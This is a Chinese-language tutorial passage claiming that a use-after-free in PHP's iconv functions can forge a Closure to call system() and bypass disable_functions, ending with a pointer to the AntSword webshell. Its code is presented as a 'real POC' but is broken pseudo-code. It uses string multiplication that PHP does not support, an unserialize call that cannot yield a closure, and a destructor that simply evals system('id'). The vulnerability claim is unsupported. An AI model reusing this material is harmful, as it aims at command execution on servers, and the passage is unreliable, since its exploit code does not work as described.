

## iconv 提权

**UAF 利用点：iconv 缓冲释放不当**

某些 `iconv_*` 函数（比如 `iconv_strlen()`）在处理非法字符时会触发错误流程，例如：

```php
iconv_strlen("\x80", "UTF-8");
```

上述代码会尝试处理非法的 UTF-8 字节流，引发底层错误。但在旧版 PHP 的处理逻辑中：

- 会先分配 buffer
- 出错时没有完全释放或释放后没有清空指针
- 下一次分配对象时可能复用了这段内存，从而导致 UAF

**劫持对象结构**

UAF 利用的目标是劫持 PHP 的内部对象结构（如 `zend_object`），例如通过自定义类与析构逻辑：

```php
class Vuln {
    public $a, $b;
    function __destruct() {
        global $exploit;
        echo $exploit;
    }
}
```

攻击者通过：

- 构造多个对象
- 利用 iconv 的漏洞破坏旧对象的结构
- 在同一个位置分配新的数据（如字符串），从而劫持虚拟函数指针

最终可以实现类似：

```php
call_user_func($fake_function_pointer); // 任意地址执行
```

**构造 fake closure 执行 system**

PHP 的 `Closure` 结构在内存中的表示是可以伪造的。例如如下伪构造：

```php
// 内存中构造 fake Closure 对象结构体，指向 zend_execute_ex -> system
$fake_closure = "\x00" * offset . ptr_to_system;
$cb = unserialize($fake_closure);
$cb("id");
```

通过 `iconv` 的 UAF 劫持使内存中的 closure 结构变成指向 `system()` 的执行逻辑，从而实现绕过 `disable_functions`

**利用链示意**



**真实利用 POC（简化）**

```php
// 假设 iconv UAF 存在
iconv_strlen("\x80", "UTF-8"); // 触发释放

class Vuln {
    public $cmd;
    function __destruct() {
        eval($this->cmd);
    }
}

// 泄露 + 构造 + 劫持（省略细节）
$a = new Vuln();
$a->cmd = "system('id');";

// 构造 fake object（通过 UAF 实现）
```

蚁剑直接梭哈


